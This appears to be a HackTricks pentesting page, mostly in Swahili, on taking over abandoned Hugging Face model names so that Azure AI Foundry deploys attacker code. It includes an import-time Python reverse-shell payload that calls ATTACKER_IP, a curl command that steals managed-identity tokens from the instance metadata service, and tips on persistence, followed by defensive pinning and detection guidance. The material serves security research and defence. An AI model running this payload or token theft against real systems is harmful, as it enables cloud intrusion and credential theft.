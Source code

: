 # Azure - AI Foundry Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Senario

- Azure AI Foundry Model Catalog inajumuisha modeli nyingi za Hugging Face (HF) kwa deployment kwa one-click.
- HF model identifiers ni Author/ModelName. Ikiwa mwandishi/taasisi ya HF imefutwa, mtu yeyote anaweza kujisajili upya jina hilo na kuchapisha modeli yenye ModelName ile ile kwenye legacy path.
- Pipelines na catalogs ambazo zinavuta kwa jina tu (no commit pinning/integrity) zitatatua kwa attacker-controlled repos. Wakati Azure inapo-deploy modeli, loader code inaweza kutekelezwa katika endpoint environment, ikitoa RCE kwa ruhusa za endpoint hiyo.

Common HF takeover cases:
- Ownership deletion: Old path 404 hadi takeover.
- Ownership transfer: Old path 307 kwa mwandishi mpya wakati mwandishi wa zamani bado yupo. Ikiwa mwandishi wa zamani baadaye anafutwa na kujisajili upya, redirect inavunjika na repo ya attacker itahudumia kwenye legacy path.

## Kutambua Namespaces zinazoweza kutumika tena (HF)
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## Mtiririko wa Shambulio kutoka Mwisho hadi Mwisho dhidi ya Azure AI Foundry

1) Katika Model Catalog, tafuta HF models ambazo waandishi wao wa awali wamefutwa au kuhamishwa (old author removed) kwenye HF.  
2) Re-register the abandoned author kwenye HF na uunde tena ModelName.  
3) Chapisha repo ya hasidi yenye loader code inayotekelezwa wakati wa import au inahitaji trust_remote_code=True.  
4) Deploy Author/ModelName ya legacy kutoka Azure AI Foundry. Jukwaa linachukua attacker repo; loader inatekelezwa ndani ya Azure endpoint container/VM, ikitoa RCE na endpoint permissions.

Example payload fragment executed on import (for demonstration only):
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Vidokezo
- Deployments za AI Foundry zinazojumuisha HF kwa kawaida hufanya clone na import repo modules zinazoreferenced na config ya model (e.g., auto_map), ambazo zinaweza kusababisha code execution. Some paths require trust_remote_code=True.
- Ufikiaji kwa kawaida unalingana na managed identity/service principal permissions za endpoint. Chukulia hii kama initial access foothold kwa ajili ya data access na lateral movement ndani ya Azure.

## Post-Exploitation Tips (Azure Endpoint)

- Orodhesha environment variables na MSI endpoints kwa tokens:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- Kagua uhifadhi uliounganishwa, artifakti za modeli, na huduma za Azure zinazoweza kufikiwa kwa token uliyoipata.
- Fikiria persistence kwa kuacha artifakti za modeli zilizochafuliwa ikiwa jukwaa linarudisha tena kutoka HF.

## Mwongozo wa Ulinzi kwa Watumiaji wa Azure AI Foundry

- Pin models kwa commit wakati wa kupakia kutoka HF:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Kufanya mirror ya HF models zilizothibitishwa kwenye registry ya ndani inayotegemewa na kuzitekeleza (deploy) kutoka huko.
- Endelea kuchunguza codebases na defaults/docstrings/notebooks kwa ajili ya Author/ModelName zilizowekwa hard-coded ambazo zimefutwa/kuhamishwa; sasisha au pin.
- Thibitisha uwepo wa author na provenance ya model kabla ya deployment.

## Kanuni za Utambuzi (HTTP)

- Deleted author: author page inaonyesha 404; legacy model path inaonyesha 404 hadi takeover.
- Transferred model: legacy path 307 kuelekea author mpya wakati old author bado ipo; ikiwa old author baadaye imefutwa na kujiandikisha tena, legacy path itatumikia attacker content.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Marejeleo Yanayohusiana

- Tazama mbinu pana na vidokezo juu ya mnyororo wa usambazaji:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Marejeleo

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}

